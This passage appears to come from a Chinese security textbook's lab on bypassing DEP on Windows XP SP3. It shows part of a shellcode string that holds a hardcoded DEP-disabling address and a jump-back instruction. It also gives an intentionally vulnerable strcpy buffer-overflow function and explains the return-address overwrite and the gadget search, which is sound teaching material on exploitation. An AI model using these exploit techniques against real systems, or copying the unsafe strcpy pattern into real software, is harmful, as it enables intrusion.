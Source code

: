 ```c++
    "\x24\xCD\x93\x7C"//关闭 DEP 代码的起始位置 
    "\xE9\x33\xFF\xFF"//回跳指令 "\xFF\x90\x90\x90" 
    ; 

void test() {    
    char tt[176];    
    strcpy(tt,shellcode); 
} 

int main() 
{    
    HINSTANCE hInst = LoadLibrary(_T("shell32.dll"));    
    char temp[200];    
    test();    
    return 0; 
} 
```

对实验思路和代码简要解释如下：
- （1）为了更直观地反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。 
- （3）将函数的返回地址覆盖为类似```MOV AL,1  retn```的指令，在将AL置1后转入0x7C93CD24 关闭 DEP。 
- （4）DEP 关闭后 shellcode 就可以正常执行了。 

实验环境如表 12-3-1 所示:
- 操作系统 Window XP SP3  DEP 状态 Optout  
- 编译器 VC++ 6.0  ,即无GS。
- 编译选项 禁用优化选项  
- build 版本 release 版本 

通过前面的分析，我们需要先找到类似 ```MOV AL,1  retn``` 的指令，即可以将 AL 置 1，又可以通过 retn 收回程序控制权。OllyFindAddr 插件的 Disable DEP→Disable DEP <=XP SP3 搜索结果的 Step2 部分就是符合要求的指令。

搜索结果如图 12.3.4 所示。 

<img src="images/09/类似moval1retn的指令搜索结果.png" >
